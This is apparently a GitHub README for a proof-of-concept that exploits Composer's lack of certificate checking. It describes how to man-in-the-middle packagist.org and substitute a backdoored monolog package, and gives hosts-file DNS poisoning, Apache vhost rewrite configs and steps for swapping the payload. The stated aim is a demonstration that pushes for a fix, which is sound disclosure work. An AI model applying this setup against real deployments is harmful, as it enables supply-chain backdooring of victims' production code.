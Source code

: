 # packagistproxy
Backdoor projects that use composer (exploit https://github.com/composer/composer/issues/1074)

This exploits composer's lack of certificate checking to drop a backdoored verson of an included library into a projects codebase.

This is for demonstration only, etc, etc. Hopefully this will show people why they shouldn't automatically run composer when deploying code into production until composer fixes their certificate checking.

# Setup

To exploit this issue, you have to get in the middle of a user's connection to packagist.org. For demo's, it's easiest to set a victim's dns to point to the attacker, but there are obviously plenty of other ways to get in the middle of a connection.

Once we're a MITM, we override a packagist's package definition with our own. It looks like composer uses that last defined definition for a package, so adding a extra provider at the end of packages.json seems to work well for now.

In this demo, the provider (re-)defines monolog/monolog. Not to pick on them as a project, but's it a popular one and in use by MediaWiki. The new definition points to my own version of monolog (https://github.com/Stype/monolog) for all versions of monolog currently defined (up to 1.15.0).

If you want to change the payload (you probably do), update monolog.json to point to the repository and commit of your choice. Then run

```
sha256sum monlog.json
```

to get the sha256 hash of that file. You'll need to update the hash in p-attack.json. The proxy.php script will automatically calculate the sha256 of p-attack.json when inserting the definition into package.json.

# Poisen DNS

For testing, on the victim I set a local hosts directive to point to my webserver (192.168.1.143).

/etc/hosts:
```
192.168.1.143	packagist.org
```


On my webserver, I have apache running with both http and https sites defined. Composer randomly uses both http and https, so the server needs to respond to both.

ssl.conf:
```
<VirtualHost 192.168.1.143:443>
  ServerName packagist.org
  DocumentRoot /srv/www/htdocs/packagistproxy

  ErrorLog /var/log/apache2/ssl-error.log
  TransferLog /var/log/apache2/ssl-access.log
  SSLEngine on
  SSLCertificateFile /etc/apache2/ssl.crt/server.crt
  SSLCertificateKeyFile /etc/apache2/ssl.key/server.key

  RewriteEngine on
  RewriteRule ^(.*)$ /proxy.php?url=$1
</VirtualHost>
```

and vhosts.conf:
```
<VirtualHost 192.168.1.143:80>
  ServerName packagist.org
  DocumentRoot /srv/www/htdocs/packagistproxy
  RewriteEngine on
  RewriteRule ^(.*)$ /proxy.php?url=$1
</VirtualHost>
```




